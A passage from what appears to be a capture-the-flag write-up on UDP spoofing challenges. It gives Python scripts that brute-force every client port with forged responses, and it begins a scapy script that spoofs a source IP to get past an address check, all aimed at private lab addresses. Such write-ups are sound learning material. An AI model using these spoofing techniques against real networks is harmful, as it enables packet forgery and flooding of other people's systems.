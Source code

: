 ```py udpspoofing2.py
    os._exit(0)

sending = Thread(target=send_udp)
receiving = Thread(target=recv_udp)

sending.start()
receiving.start()
```

# UDP Spoofing 3

We don't know the client UDP port.

I tried to use wireshark or nmap to detect the port of the client UDP port, but failed.

```py udpspoofing3.py
import socket
from threading import Thread
from os import _exit

serv_sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
serv_sock.bind(('0.0.0.0', 31337))

def send_resp():
    while True:
        for cli_port in range(1000, 65535):
            serv_sock.sendto(b'FLAG:10.0.0.1:31337', ('10.0.0.2', cli_port))

def recv_flag():
    flag = serv_sock.recv(1024).decode()
    print(flag)
    _exit(0)

send_thr = Thread(target=send_resp)
recv_thr = Thread(target=recv_flag)

send_thr.start()
recv_thr.start()
```

# UDP Spoofing 4

The client check if the IP is true. But we can use scapy to forge the IP packet.  
There is another question that scapy is very slow to send 60 thousand of packets. But using multithreading can solve the problem.

```py udpspoofing4.py
from scapy.all import *
import socket
from threading import Thread
from os import _exit

listen_ip = '0.0.0.0'
listen_port = 9999

src_ip = '10.0.0.3'
src_port = 31337

dst_ip = '10.0.0.2'

def process_bar(start, end, now):
    rate = (now-start) / (end-start)
    print(f"\r|{'#'*round(50*rate):50}| {1+now-start}/{end-start}", end='')
```
